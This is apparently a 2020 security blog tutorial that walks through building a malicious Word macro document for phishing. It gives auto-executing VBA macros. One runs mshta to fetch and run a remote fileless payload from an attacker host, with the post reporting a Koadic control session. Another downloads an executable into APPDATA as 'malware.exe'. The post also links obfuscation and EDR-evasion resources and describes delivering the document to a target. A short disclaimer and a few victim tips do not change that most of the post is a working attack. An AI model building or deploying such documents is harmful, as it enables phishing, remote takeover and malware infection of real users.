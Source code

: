 ```yaml
---
title: "Create malicious office documents (Macro attack)"
date: "2020-04-19"
layout: single
tags:
- Malware
categories:
- Blog-post
---
```


Hello world.

This blog post is tend to show how macro attack works. 

In real scenario, attacker may phishing user by email user with some sort of business or organization matter etc., if user download and execute those malicious file, their machine then will be compromised.

Successful rate for this macro attack being detected by AntiVirus is depend on how the obfuscation of the macro and the Antivirus(AV) signature itself. It's look like the more obfuscation made by attacker, the lower the chance of their malware being detected by AV. One of the popular malware using this type of attack is Emotet malware. They use macro attack to drop their payload, and then execute the executable at the end of the process.

Picture below from CyberReason show how of Emotet malware works.

![enter image description here](https://lh6.googleusercontent.com/2NuozHdR7FXjw0eHCtSOa0kJyTgTGbC1Q64bhXNi1gOCRW7lHJfrb8SnAXaN6wjY9BKmsd0RwekmY1y-fCk21CVv2CBmMPBMQb9iGDghRfLCZ8GfrN0DSRm6GH0D8Fc7HH2-iKpH)

We gonna create a basic malicious document attack that will execute mshta payload (without any obfuscation made) whenever user open our malicious document.

This blog post is for education and research purpose only. If you do something bad, do with your own risk.

## Create document file in Microsoft Word

We will create a word file first and at the end of this tutorial save it as `.doc`. 

Maybe as an attacker, they will display a message to phishing user to click `enable editing` and `enable content` of the document like below picture.

![pic1](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic1.png)

## Create macro 

Click on 'view" tab

![//pic2](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic2.png)

Click Macros

![//pic3](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic3.PNG)

Type any name you want for Macro name and click "create" to create the macro

![//pic4](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic4.PNG)

On "Project" path, click ThisDocument

![//pic5](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic5.PNG)

### Execute command

Write our malicious macro code like below

```
Private Sub Document_Open()
Test
End Sub

Private Sub DocumentOpen()
Test
End Sub

Private Sub Auto_Open()
Test
End Sub

Private Sub AutoOpen()
Test
End Sub

Private Sub Auto_Exec()
Test
End Sub

Private Sub Test()
    Shell ("cmd /c mshta http://192.168.83.129:9999/TPXfI")
End Sub
```
![//pic6](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic6.PNG)

You can also use other payload command line like powershell etc. The mshta attack is just an example.

In my case here, this macro will execute mshta fileless payload.

### Download file
```
Private Sub Document_Open()
Test
End Sub

Private Sub DocumentOpen()
Test
End Sub

Private Sub Auto_Open()
Test
End Sub

Private Sub AutoOpen()
Test
End Sub

Private Sub Auto_Exec()
Test
End Sub

Private Sub Test()
'
Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
xHttp.Open "GET", "https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe", False
xHttp.Send
With bStrm
    .Type = 1
    .Open
    .write xHttp.responseBody
    .savetofile Environ("APPDATA") & "\malware.exe", 2
End With
'
'
End Sub
```

### More option and resource of macro script
- https://gist.github.com/mgeeky/3c705560c5041ab20c62f41e917616e6
- https://github.com/mgeeky/VisualBasicObfuscator
- https://gist.github.com/mgeeky/9dee0ac86c65cdd9cb5a2f64cef51991
- https://blog.f-secure.com/dechaining-macros-and-evading-edr/


## Save as .doc

We gonna choose `.doc` or `.docm` file format to save this document because this type of document support to execute macro attack.

![//pic7](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic7.PNG)

Now, we can deliver this malicious document to target user.


# User execute and enable content
Once user open the document and enable content of our malicious document, the user will be compromised.

Take a look at below gif on how it works.

![//pic8.gif](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic8.gif)

Koadic now has take control our target user.

# User (victim) precaution
- Verify sender address thoroughly
- Ensure Antivirus is legitimate and updated
- Take a precautionary measures like do not click "enable content" when opening `.doc` or `.docm` document format.
